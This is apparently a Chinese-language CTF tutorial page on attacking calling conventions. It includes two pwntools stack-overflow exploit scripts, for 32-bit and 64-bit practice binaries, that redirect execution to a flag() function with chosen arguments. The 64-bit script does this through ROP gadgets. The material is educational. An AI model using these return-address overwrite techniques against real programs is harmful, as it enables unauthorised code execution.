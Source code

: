 ```yaml
---
title: '攻击调用约定'
date: '2023-08-11'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '利用调用约定'
authors: ['default']
---
```


LINK

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<center>
  <Image alt="origin" src="https://s11.ax1x.com/2024/02/09/pF3MZAe.png" width={406} height={62} />
</center>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<center>
  <Image alt="new" src="https://s11.ax1x.com/2024/02/09/pF3Ma3n.png" width={535} height={62} />
</center>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

payload = b'A' * 52         # Padding 到 EIP
payload += p32(0x080491c7)  # flag() 的地址
payload += p32(0x0)         # 避免异常
payload += p32(0xdeadc0de)  # 第一个参数
payload += p32(0xc0ded00d)  # 第二个参数

p.sendline(payload)

p.interactive()
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为 `rdi` 和 `rsi`，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

payload = b'A' * 56          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(0xdeadc0de)   # 进入 rdi 的值 - 第一个参数
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0xc0ded00d)   # 进入 rsi 的值 - 第二个参数
payload += p64(0x0)          # 进入 r15 的值 - 避免异常
payload += p64(0x40116f)     # flag() 的地址
payload += p64(0x0)          # 避免异常

p.sendline(payload)

p.interactive()
```

<Note>
  在返回地址后面加 0 本质是为了让程序有个返回的地方，防止异常，不然会返回到下面奇奇怪怪的东西；有时候也可能是栈对齐，64-bit 程序执行 `system` 时会有一个检查，确保栈指针是指着 0 的（结尾是 0），没有对齐的话就不能执行。<br style={{ marginBottom: '0.5em' }} />通常 0 可以替换为任意值，效果是一样的。只是习惯加 0。
</Note>

